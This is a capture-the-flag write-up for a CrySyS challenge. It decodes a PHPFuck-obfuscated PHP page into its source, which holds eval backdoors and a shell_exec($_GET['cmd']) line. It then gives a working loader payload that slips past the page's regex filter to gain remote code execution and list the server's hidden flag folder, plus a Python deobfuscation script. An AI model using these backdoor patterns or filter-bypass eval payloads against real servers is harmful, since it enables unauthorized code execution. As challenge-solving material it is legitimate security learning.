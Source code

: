 ```yaml
---
title: "Until the end"
layout: page
---
```


- Road to Valhalla part 3 
- medium

In part2 of Road to Valhalla you found the URL of the server that contains the coordinates of Valhalla. You open the site and see the title of the page "Only those who endure until the end". So be it traveler endure till the end and you will have your reward!

[https://until-the-end.secchallenge.crysys.hu](https://until-the-end.secchallenge.crysys.hu)

_author: Pepe_

## Writeup

We were greeted with syntax-highlighted PHP code (linked because it's BIG). It was actually the source code of the page.

Identifying that brackety-thing was not straightforward, and took me some time. Googling `programming only brackets` led me to [this SO question](https://stackoverflow.com/questions/25622221/language-made-only-of-brackets-plus-and-exclamation-marks) and it turns out there's a joke-language (a subset of JS) called `JSFuck` witch uses only a few characters for programs. Of course, this is PHP and another set of characters...

After that, I've randomly googled `PHPFuck` and found [this github repo](https://github.com/splitline/PHPFuck), basically the exact thing used here.

![php_normal](php.png)
(meme by `rnbwdsh`)

So, I've worked on un-fucking the script. It's not that hard, it's just making characters and concatenates them into code, then passes it to `create_function`. It mostly follows the pattern of `(char).(char).(char)`. With a PHP shell to eval the characters I've managed to search-replace all of them and reverse the code:
```php
<title>Only those who endure until the end</title>
<?php 
highlight_file(__FILE__);
if (isset($_GET[' '])) {
    $will_eval = str_replace('a', str_replace('kekw'), str_rot13(strtoupper(substr($_GET[' '], 42, 69))));
    var_dump($will_eval);
    eval($will_eval);
}
else if (isset($_GET['+'])) {
    if (preg_match('/[b-d\-0-9H-LA-DU-Xi-kn-s!?TEz.]/', $_GET['+'])) 
        die();
    eval($_GET['+']);
}
else {
    die();
    shell_exec($_GET['cmd']);
}
?>
```

So there's actually 2 backdoors, but possibly only one of them is accessible. With a few tries (a lot of them actually because I f-ed them up) it turns out that `+` can be a parameter if URL-encoded as `%2B`. It will only eval our payload if it does NOT match that regex, witch limits what we can do.

I've came up with a way to escape that regex prison by `eval()`-ing another `$_GET` parameter. I could not just include `$_GET`, but could do `$_Get` and `eval()` it after `strtoupper()` and get the same thing. The whole thing only works because function names are not case sensitive.

Here's my loader:
```php
$a=StRtOuPPeR('$_Get');
$Y=eval("RetuRN {$a};");
$x=$Y['x'];
eval($x);
```

Sent URL-encoded of course.

With that, I've gained RCE on the server. It took me a really long time to figure out that this even works, because I've always tried `shell_exec()` and `file_read()` and those were disabled (should have run `phpinfo()` first, stupid me). 

Anyways, if you list the contents of the folder, you can see that there is a folder named `very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]` and as with the previous ones I could just navigate there and find the flag.


The request I've found the folder with: `+=<loader>&x=echo scandir(".");`

### EDIT:
My code unfucking the PHP:
```python
REPLACE = [
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","c"],
    ["(([].[])[([]^[[]])])", "r"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "e"],
    ["(([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","a"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","t"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","_"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","f"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","u"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","n"],
    ["(([]^[]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","i"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","o"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","s"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "g"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","v"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","("],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","$"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","G"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","E"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","T"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","["],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])"," "],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])",'"'],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",","],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","\\'"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",")"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","{"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\n"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","]"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","l"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])])","p"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","k"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","w"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","m"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","h"],
    ["(([]^[[]]).[][[]])","1"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])])","3"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","b"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","4"],
    ["(([]^[[]])+([]^[[]]).[][[]])","2"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","6"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","9"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","d"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",";"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","+"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","}"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","/"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","-"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\"],
    ["(([]^[]).[][[]]^([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","x"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","!"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","H"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","L"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","D"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","U"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","X"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","?"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","z"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","."],
    ["(([].[])[([]^[])])","A"],
    ["(([]^[]).[][[]])","0"],

]

REPLACE.sort(key=lambda x: len(x[0]), reverse=True)


with open("phpfuck.php") as fin:
    with open("out.php", "w") as fout:
        l = fin.read()
        for r in REPLACE:
            l = l.replace(r[0],f"'{r[1]}'")
        #l = l.replace("'.'","")
        fout.write(l)
```

This of course is very unnecessary, as if you understand how PHPF works you could do it in seconds via a PHP shell.